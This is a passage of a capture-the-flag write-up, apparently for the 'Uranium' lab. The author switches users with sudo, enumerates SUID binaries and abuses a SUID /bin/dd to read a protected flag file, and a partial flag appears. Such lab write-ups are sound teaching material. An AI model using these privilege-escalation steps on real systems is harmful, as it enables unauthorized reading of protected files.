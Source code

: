 we can swith to other user, Kral4 with sudo and get flag for user2

```
hakanbey@uranium:~$ sudo -u kral4 /bin/bash 
kral4@uranium:~$ 

```
let's do some enumerate to see what we can do with kral4 user

```

kral4@uranium:~$ find / -perm -4000 2>/dev/null                                     
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1

......
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/at
/usr/bin/sudo
/bin/umount
/bin/ping
/bin/su
/bin/fusermount
/bin/mount
/bin/dd

```

we found /bin/dd intersting..

![6](https://user-images.githubusercontent.com/74853138/130370048-59f38869-7f91-4f96-88d2-e486cd307966.png)

## web_flag.txt

```
kral4@uranium:~$ find / -type f -name web_flag.txt  2>/dev/null
/var/www/html/web_flag.txt

```
let's use dd to read this

```
kral4@uranium:~$ /bin/dd if=/var/www/html/web_flag.txt
thm{0[web_flag.txt]...0b3e6750a}
0+1 records in
0+1 records out
38 bytes copied, 0.000732727 s, 51.9 kB/s

```
and Voila !!
